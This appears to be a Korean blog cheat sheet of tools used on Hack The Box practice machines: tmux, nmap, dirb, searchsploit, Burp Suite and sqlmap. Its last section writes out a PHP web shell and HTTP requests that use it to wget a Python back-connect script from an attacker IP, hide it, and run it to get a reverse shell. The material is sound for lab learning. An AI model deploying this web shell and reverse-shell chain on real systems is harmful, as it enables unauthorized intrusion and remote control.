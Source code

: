 ```yaml
---
layout: post
title: "hack the box intro"
featured-img: hack_the_box
category: Etc
summary: tmux, nmap, searchsploit, burpsuite, python-pty-shells 
---
```


`hack the box`에서 자주 사용되는 도구, 명령어를 정리해놓았습니다.

## tmux
---

tmux is a terminal multiplexer: it enables a number of terminals to be created, accessed, and controlled from a single screen. tmux may be detached from a screen and continue running in the background, then later reattached.

|command| Description |
|-----------|-------------|
|tmux ls|세션 목록보기|
|tmux new -s session_name|세션 생성하며 이름 지정|
|tmux attach -t session_aname|특정 세션으로 진입하기|
|tmux kill-session -t session_name|세션 바깥에서 특정 세션을 종료|
|exit|세션 종료|


|Key|Description|
|------------|-------------|
|ctrl + b, c | 새로운 윈도우 생성|
|ctrl + b, % | 윈도우 횡 분할|
|ctrl + b, " | 윈도우 종 분할|
|ctrl + b, q | 윈도우 이동 숫자키|
|ctrl + b, arrow | 윈도우 이동 방향키|
|ctrl + b, x|세션 종료|
|ctrl + b, d|세션 빠져나오기, 세션은 유지된다. |
|ctrl + b, w|모든 윈도우 리스트 보기|
|ctrl + b, z|특정 윈도우를 전체화면으로 전환, 한번 더 누르면 원상태 복구|
|ctrl + d|윈도우 닫기|

**\# Referrence #**<br>
[http://blog.b1ue.sh/2016/10/10/tmux-tutorial/](http://blog.b1ue.sh/2016/10/10/tmux-tutorial/)


### tmux copy block
---


tmux.conf 를 만들어서 vi의 단축키를 사용할 수 있도록 설정합니다.

```console
root@kali:~/Desktop/htb/tenten# cat ~/.tmux.conf
set-window-option -g mode-keys vi
```
session 안에서 `ctrl+b+:` 입력 후 다음 명령어를 입력합니다.

```
source-file ~/.tmux.conf
```

이후 `ctrl+b+]`를 통해서 블록 지정 `space`, 복사 `enter`, 붙여넣기 `ctrl+b+]`를 할 수 있습니다.

**\# Referrence #**<br>
[jupiny.tistory.com](https://jupiny.tistory.com/entry/tmux-%EC%B0%BD%EA%B3%BC-%EC%B0%BD-%EC%82%AC%EC%9D%B4%EC%97%90%EC%84%9C-%EB%B3%B5%EB%B6%99%ED%95%98%EA%B8%B0)

## nmap
---

```bash
nmap -sC -sV -oA nmap-scripts 10.10.10.6
```

|options|Description|
|------------|-------------|
|-sC | --script default|
|-sV|Probe open ports to determine service/version info|
|-oA \<basename\> | Output in the three major formats at once(xml, nmap, gnmap)|

[https://svn.nmap.org/nmap/docs/nmap.usage.txt](https://svn.nmap.org/nmap/docs/nmap.usage.txt)

## dirb
---
DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analyzing the response.

```
dirb http://10.10.10.6 -r -o tmp.dirb
```

|options|Description|
|------------|-------------|
|-r | Don't search recursively|
|-o <output_file> | Save output to disk |

[https://tools.kali.org/web-applications/dirb](https://tools.kali.org/web-applications/dirb)

## searchsploit
---
http://www.exploit-db.com 을 콘솔 환경에서 검색 할 수 있는 툴<br>
[https://www.exploit-db.com/searchsploit](https://www.exploit-db.com/searchsploit)

```bash
searchsploit afd windows local
searchsploit -t oracle windows
searchsploit -p 39446
searchsploit linux kernel 3.2 --exclude="(PoC)|/dos/"
searchsploit -x 11746.txt
```

|options|Description|
|------------|-------------|
|\-x, --examine [EDB-ID]|Examine (aka opens) the exploit using $PAGER.|


## burpsuite
---

특정한 URL만 확인할 수 있습니다.
```
target -> add to scope -> show only in-scope items
proxy -> HTTP history -> show only in-scope items
```

firefox ESR 프록시 설정
```
open menu -> preferences -> General -> Network Proxy
```

HTTP 메소드 변경
```
right click -> change requests method
```
## sqlmap
---
sqlmap -r [HTTP Request file] --level5 --risk 3

## python-pty-shells 
---

[https://github.com/infodox/python-pty-shells](https://github.com/infodox/python-pty-shells)

python 기반의 reverse-shell입니다.<br>
다음 방법은 파일업로드가 가능하거나, 임의의 파일을 쓸 수 있을 때 가능한 방법입니다.

테스트한 환경은 ubuntu 18.04에 APM을 설치하여 진행하였습니다.

1) 먼저 아래와 같은 php 구문을 업로드 또는 서버에 씁니다.

```php
<?php echo system($_REQUEST['shin']);?>
```

다음과 같이 HTTP Request를 할 수있습니다.

```
GET /shell.php?shin=ifconfig HTTP/1.1
```

2) wget을 이용하여 python 파일을 전달하기 위해 다음 명령어를 실행합니다.

```bash
python -m SimpleHTTPServer
```

3) tcp_pty_backconnect.py의 ip부분을 수정하여 다음과 같이 HTTP Request를 통해 해당 서버에 python 파일을 전달합니다.

권한문제로 정상적으로 파일을 다운받을 수 없으므로 /var/www/html의 권한을 수정하였습니다.

```
GET /shell.php?shin=wget 192.168.87.132:8000/tcp_pty_backconnect.py -O /var/www/html/uploads/.rev.py HTTP/1.1
```

4) listener를 사용하기 위해서 다음의 명령어를 사용합니다.

```
python tcp_pty_shell_handler.py -b 192.168.87.132:31337
```

5) 이후 서버에 업로드한 python 파일을 실행시키면 쉘을 얻을 수 있습니다.

```
GET /shell.php?shin=python /var/www/html/uploads/.rev.py HTTP/1.1
```


